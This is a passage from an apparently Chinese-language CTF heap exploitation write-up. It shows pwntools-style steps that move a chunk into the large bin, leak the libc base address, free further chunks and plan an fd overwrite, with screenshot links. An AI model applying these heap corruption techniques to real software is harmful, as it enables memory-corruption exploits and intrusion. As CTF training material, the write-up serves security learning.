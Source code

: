 然后把这个相同fd的chunk链入large bin，泄露libc

```plain
delete(8)
add(0x498,'dddd')
show(1)
libc_base=u64(p.recv(6).ljust(8,'\x00'))-0x1ff0f0-0x20
```

[![](assets/1701606615-0fc7c089e626dba7b2cbc1c2ba54d2f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213729-1f29b086-83bc-1.png)

```plain
delete(2)
delete(3)
```

[![](assets/1701606615-45285316234c545214b0198de9ffdc3d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213741-267784da-83bc-1.png)  
然后找个比较进的地址去改fd
